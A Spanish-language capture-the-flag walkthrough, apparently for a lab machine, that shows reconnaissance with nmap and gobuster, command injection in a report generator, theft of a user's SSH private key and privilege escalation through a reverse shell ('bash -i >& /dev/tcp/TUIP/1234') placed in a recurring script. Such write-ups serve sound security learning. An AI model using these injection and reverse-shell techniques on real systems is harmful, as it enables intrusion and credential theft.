 1- Ping y NMAP

<img width="618" height="390" alt="image" src="https://github.com/user-attachments/assets/d9c640a7-fb6e-4693-b6a2-6acdd489612e" />

2- Gobuster para ver directorios.

<img width="752" height="398" alt="image" src="https://github.com/user-attachments/assets/fe044eff-e140-41a8-9923-6304034c7265" />

3- Vemos un directorio donde se pueden subir archivos, intento subir una revshell pero no funciona. Asi que intento otra forma:

<img width="1233" height="575" alt="image" src="https://github.com/user-attachments/assets/ba9ba1c4-588f-4dcc-9c10-53fafb00897b" />

Hay un generador de reportes que genera archivos txt, es vulnerable a comandos: ; cat /etc/passwd y vemos que hay un usuario llamado samara:

<img width="605" height="113" alt="image" src="https://github.com/user-attachments/assets/fd75cb3d-e1d9-468d-812a-9103597e6d12" />

Hacemos un ls -a, a su directorio y vemos que hay una carpeta .ssh:

<img width="514" height="249" alt="image" src="https://github.com/user-attachments/assets/c26b8fde-aa27-4d26-9614-5c30782c28c6" />

Dentro de esa carpeta hay su id_rsa personal, lo copiamos y lo pegamos en un fichero txt :

<img width="541" height="585" alt="image" src="https://github.com/user-attachments/assets/6b385aa0-b6d2-4f41-8302-df3c724abe87" />


<img width="133" height="51" alt="image" src="https://github.com/user-attachments/assets/63e706f8-14da-4827-8ff3-a31f42df46dc" />

Una vez creado le damos permisos y conectamos via ssh.

<img width="499" height="231" alt="image" src="https://github.com/user-attachments/assets/4cde6de0-12d4-407e-ad32-ba07068c4ea2" />

Intentamos ver permisos y no vemos nada. Vemos lo que se esta ejecutando y hay un fichero sospechoso.

<img width="301" height="133" alt="image" src="https://github.com/user-attachments/assets/f627b9db-2e10-4efc-b8b0-49e646c85387" />

Es una contraseña, pero no le encuentro utilidad.

<img width="753" height="412" alt="image" src="https://github.com/user-attachments/assets/2a995cb2-3e00-43a1-b349-302d5976b49a" />

Vemos que hay un fichero que se ejecuta constantemente , lo modificamos y le ponemos una revshell, y nos ponemos en escucha:

<img width="753" height="412" alt="image" src="https://github.com/user-attachments/assets/fbe33e9c-20e7-47b3-963d-672b3b9fbd38" />

#!/bin/bash       
bash -i >& /dev/tcp/TUIP/1234 0>&1      
echo "No tienes permitido estar aqui :(." > /home/samara/message.txt      

Guardamos y salimos.

y automaticamente nos llega la shell como root directamente.
